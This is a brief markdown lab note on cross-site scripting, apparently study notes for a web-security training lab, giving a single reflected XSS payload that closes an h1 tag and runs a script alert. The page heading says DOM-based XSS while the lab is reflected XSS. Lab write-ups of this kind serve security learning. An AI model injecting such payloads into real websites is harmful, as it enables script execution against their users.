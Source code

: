 # DOM-Based XSS  Cross-site scripting




### LAB: Reflected XSS into HTML context with nothing encoded


Payload : '</h1><script>alert(1)</script>

